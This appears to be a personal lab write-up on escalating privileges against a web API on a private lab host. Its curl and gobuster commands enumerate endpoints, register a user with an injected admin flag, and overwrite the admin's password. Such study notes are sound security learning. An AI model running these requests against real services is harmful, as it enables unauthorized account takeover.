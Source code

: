 ```yaml
---
layout: post
title: API Priv Escalation
titledate: 08/25/23
tags: ["infosec","offsec","web", "api", "gobuster", "burpsuite", "http", "curl"]
---
```


<h4>Brute Force with Gobuster</h4>

We can use Gobuster to brute force APIs by creating a pattern file
    {GOBUSTER}/v1
    {GOBUSTER}/v2

    $ gobuster dir -u http://192.168.128.20:2002 -w /usr/share/wordlists/dirb/big.txt -p pattern

We can then use curl to inspect the APIs that get returned

    $ curl -i http://192.168.128.20:2002/users/v1

From our response we get many users so we can take a look at what apis they have access to

    $ gobuster dir -u http://192.168.128.20:2002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt

If we examine the password API

    $ curl -i http://192.168.128.20:2002/users/v1/admin/password

we get METHOD NOT ALLOWED indicating the API exists for the user but the GET method we are using is not supported
so we can try other HTTP methods to see what is supported

here we check if a certain api is supported for a user 

    $ curl -i http://192.168.128.20:2002/users/v1/login

    "USER NOT FOUND"

This response means the api exists but not for the user

We can use curl to pass an HTTP POST with json arguments for the admin user

    $ curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.128.20:2002/users/v1/login

In this example the login fails with password incorrect, but indicates we have correct json login parameters for the api

<h4>User PRIV Escalation</h4>

One idea is to try and create a new user account with admin priveleges. From here maybe we can gain access and alter the existing admin account access

    $ curl -d '{"password":"lab","username":"dlo","email":"pwn@dlo.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.128.20:2002/users/v1/register

We correctly form the HTTP request with the username and password json parameters and all required other parameters but pass the parameter admin to test if it allows this

If we get a successful account creation, we can try to login with our newly created admin account

    $ curl -d '{"password":"lab","username":"dlo"}' -H 'Content-Type: application/json'  http://192.168.128.20:5002/users/v1/login

The response here will give us a JWT authentication token

Now we can try to login as the admin account with our new admin auth token and update the admin password

    $ curl  \
  'http://192.168.128.20:2002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew' \
  -d '{"password": "pwned"}'

In this case we get method not allowed as a response so we can try an alternate HTTP method like PUT

    curl -X 'PUT' \
  'http://192.168.128.20:2002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'

If this works we should be able to login as the admin account via the api with our newly changed password

    $ curl -d '{"password":"pwned","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.128.20:2002/users/v1/login

<h4>Burpsuite API Testing</h4>

Burpsuite can be very useful in enumerating apis and allowing for quick testing of requests and responses. It will keep track of all of them in the sitemap for quick access






